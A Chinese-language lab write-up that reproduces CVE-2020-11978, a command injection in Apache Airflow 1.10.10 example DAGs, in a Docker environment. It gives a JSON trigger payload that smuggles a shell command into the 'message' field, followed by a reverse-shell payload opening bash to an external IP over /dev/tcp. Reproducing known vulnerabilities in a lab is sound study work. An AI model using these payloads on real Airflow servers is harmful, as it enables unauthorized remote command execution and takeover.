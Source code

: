 # Apache Airflow 示例DAG中的命令注入 CVE-2020-11978

## 漏洞描述

Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。

在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978

## 环境搭建

Vulhub依次执行如下命令启动Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

访问`http://your-ip:8080/admin/airflow/login`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![image-20220329111338269](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948096.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![image-20220329111358392](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948097.png)

等几秒可以看到执行成功：

![image-20220329111445804](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948098.png)

到CeleryWorker容器中进行查看：

```
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![image-20220329111605593](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948099.png)

### 反弹shell

相同方法执行反弹shell：

```
{"message":"'\";bash -i >& /dev/tcp/101.42.237.61/9999 0>&1;#"}
```

![image-20220329113423239](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202204251948100.png)

